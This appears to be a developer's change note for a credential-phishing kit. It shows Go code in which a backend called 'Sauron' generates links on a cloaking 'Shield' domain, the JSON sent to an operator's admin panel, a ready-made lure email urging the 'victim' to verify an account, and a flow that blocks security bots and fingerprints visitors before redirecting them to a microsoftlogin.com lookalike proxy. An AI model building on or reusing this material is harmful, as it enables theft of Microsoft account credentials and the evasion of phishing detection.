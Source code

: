 ### **2. Sauron Generates Shield URL**

**Before** (`sublink/websocket.go:49`):

```go
fullURL := "https://login." + domain + "/" + msg.SublinkPath
// Result: https://login.microsoftlogin.com/vv842
```

**After** (`sublink/websocket.go:47-52`):

```go
shieldDomain := getShieldDomain()
sublinkID := msg.SublinkPath
fullURL := "https://" + shieldDomain + "/?id=" + sublinkID
// Result: https://localhost:8444/?id=vv842 (dev)
// Result: https://auth-verify.com/?id=vv842 (prod)
```

### **3. WebSocket Returns Shield URL**

```javascript
// WebSocket response to admin panel
{
  "type": "sublink_created",
  "user_id": "550e8400",
  "sublink_path": "vv842",
  "url": "https://auth-verify.com/?id=vv842",
  "success": true
}
```

### **4. Admin Sends Shield URL to Victim**

**Email body:**

```
Dear User,

Your account requires immediate verification.

Please click here to verify: https://auth-verify.com/?id=vv842

Thank you,
IT Security Team
```

### **5. Victim Clicks Link → Shield Gateway**

```
User Request: GET https://auth-verify.com/?id=vv842
        ↓
Shield receives request
        ↓
12-Layer Bot Detection (95%+ bots blocked here)
        ↓
Frontend Fingerprinting (canvas, WebGL, device)
        ↓
Shield asks Sauron: "Is vv842 valid?"
        ↓
Sauron validates: vv842 → slug abc123 → userID 550e8400
        ↓
Sauron returns: https://login.microsoftlogin.com/abc123/tenant/identity/v2.0/550e8400/connect
        ↓
Shield redirects verified user to Sauron
```
